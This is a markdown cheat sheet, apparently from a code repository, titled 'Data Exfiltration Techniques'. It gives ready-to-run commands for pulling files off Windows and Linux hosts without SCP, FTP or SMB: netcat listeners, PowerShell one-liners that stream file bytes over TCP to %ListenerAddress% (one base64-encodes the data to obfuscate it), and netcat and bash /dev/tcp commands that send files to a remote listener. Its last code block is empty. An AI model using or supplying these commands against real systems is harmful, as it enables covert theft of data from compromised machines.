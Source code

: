 # Data Exfiltration Techniques
#### This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc.

***

### Windows To Linux

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -lp %ListeningPort% > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $Length = [System.BitConverter]::GetBytes($FileContents.Length); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close()
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -lp %ListeningPort% | base64 -d > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()
```

###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

***

### Linux To Linux

#### Send file from remote client to host machine:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -lp port > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with NetCat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If NetCat is unavailable, on the Linux client connect back with bash:

```
cat file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

#### Retrieve file from host to client:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -q 0 -lp %ListenerPort% < file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with NetCat:

```
nc %ListenerAddress% %ListeningPort% > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If NetCat is unavailable, on the Linux client connect back with bash:

```

```

